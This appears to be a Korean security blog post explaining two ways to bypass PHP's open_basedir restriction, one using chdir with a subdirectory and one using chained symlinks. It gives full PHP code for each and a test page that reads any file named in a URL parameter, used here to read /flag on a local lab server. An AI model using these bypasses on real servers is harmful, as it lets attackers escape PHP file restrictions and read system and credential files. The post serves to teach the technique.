 ```yaml
---
layout: post
title: "PHP Open_basedir bypass"
comments: true
description: "PHP Open_basedir bypass."
keywords: PHP, bypass, open_basedir

---
```


## 시작하기에 앞서

오탈자, 혹은 잘못된 부분은 언제든 환영합니다 :)

## 왜 갑자기 open_basedir?

잠자기전 트위터를 보다가 굉장히 흥미로운 트윗을 보았습니다. Thanks to, [@Blaklis_](<https://twitter.com/Blaklis_>)

![image-20190405042856180](<http://shpik.kr/static/img/open_basedir_intro.png>)

> **Source :** https://twitter.com/Blaklis_/status/1111586655134203904

처음에는 단순히 라업을 적은듯 하였는데, 내용을 읽어보니 일단 제가 모르는 것이었습니다.  [[Go to link]](<http://91.121.31.50/phuck3.txt>)

요약을 하자면 open_basedir이 설정되어있을 경우, 이를 우회해 /(root)로 변경이 가능합니다.

이말은 즉,  open_basedir이 /var/www/html에 걸려있더라도 /etc/passwd와 같은 서버 설정파일을 읽을 수 있다는 것입니다. 

총 2가지 방법(subdirectory, symlink)을 통해 open_basedir을 우회하려고 합니다.

## open_basedir bypass

#### Initialize Setting

서버의 설정(php.ini)는 다음과 같습니다.

```ini
open_basedir = /var/www/html
```

index.php의 소스는 다음과 같습니다.

```php
error_reporting(E_ALL);
ini_set('display_errors',1);
echo file_get_contents($_GET['f']);
```

/flag를 읽을려고 하면 당연히 에러가 발생할 것입니다.

![Error](http://shpik.kr/static/img/open_basedir_00.png)

참고로 정상적인 경우 open_basedir을 /로 변경해도, open_basedir은 변경되지 않습니다. 고로 /flag를 읽을 수 없습니다.

![default open_basedir](http://shpik.kr/static/img/open_basedir_02.png)

이제 이를 우회하여 /flag파일을 읽어봅니다.

#### 1 - Using subdirectory

subdirectory를 이용하여 open_basedir을 /로 변경하는 방법입니다.

이를 위해서는 open_basedir안에 폴더가 존재해야합니다.

테스트를 위한 서버의 구조는 다음과 같습니다.

```
root@shpik:/var/www/html/shpik/04# ls -al
total 20
drwxr-xr-x 3 root root 4096 Apr  5 04:45 .
drwxr-xr-x 6 root root 4096 Apr  5 04:16 ..
-rw-r--r-- 1 root root  341 Apr  5 04:21 index.php
drwxr-xr-x 2 root root 4096 Apr  5 04:19 mashiro
-rw-r--r-- 1 root root  100 Apr  5 04:45 test.php
```

mashiro라는 폴더를 이용하여 /flag파일을 읽어봅시다.

코드는 다음과 같습니다.

```php
error_reporting(E_ALL);
ini_set('display_errors',1);
chdir('mashiro');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
echo file_get_contents($_GET['f']);
```

open_basedir을 우회하여 /flag파일이 정상적으로 읽힙니다.

![open_basedir bypass using subdirectory](http://shpik.kr/static/img/open_basedir_01.png)

#### 2 - Using symlink

/를 가르키는 symlink를 생성하여 open_basedir을 우회하는 방법입니다.

이는 ../를 이용해 parent directory로 이동하기 때문에 적당한 깊이의 폴더가 필요합니다.

```
root@shpik:/var/www/html/shpik/04/symlink# tree
.
├── a
│   └── b
│       └── c
│           └── d
│               └── e
│                   └── f
│                       └── g
│                           └── h
│                               └── j
│                                   └── j
│                                       └── k
└── index.php
```

이를 링크로 하나 만들어줍니다.

```php
symlink('/var/www/html/shpik/04/symlink/a/b/c/d/e/f/g/h/j/j/k','shiina');
```

그러면 아래와 같은 symlink가 생성됩니다.

```
shiina -> /var/www/html/shpik/04/symlink/a/b/c/d/e/f/g/h/j/j/k
```

위에서 생성한 symlink(shiina) 기준으로 하위로 내려가는 symlink(goto)를 하나 더 생성해줍니다.

그리고 ini_set을 통해 open_basedir을 재 설정해주는데, 방금 생성한 symlink(goto/)를 추가해줍니다.

마지막으로 symlink(shiina)는 unlink해줍니다. 

```php
ini_set('open_basedir','/var/www/html:goto/')
symlink('shiina/../../../../../../','goto');
ini_set('open_basedir','/var/www/html:goto/');
unlink('shiina');
symlink('/var/www/html/','shiina');
```

그러면 goto라는 symlink는 /를 가르키게 되고 `file_get_contents('goto/flag');`를 하게 되면 open_basedir을 우외하여 파일을 읽을 수 있습니다. 아래는 풀 코드입니다.

```php
error_reporting(E_ALL);
ini_set('display_errors',1);
symlink('/var/www/html/shpik/04/symlink/a/b/c/d/e/f/g/h/j/j/k','shiina');
symlink('shiina/../../../../../../','goto');
ini_set('open_basedir','/var/www/html:goto/');
unlink('shiina');
symlink('/var/www/html/','shiina');
echo file_get_contents('./goto/flag');
highlight_file(__FILE__);
```

![open_basedir bypass using symlink](http://shpik.kr/static/img/open_basedir_03.png)

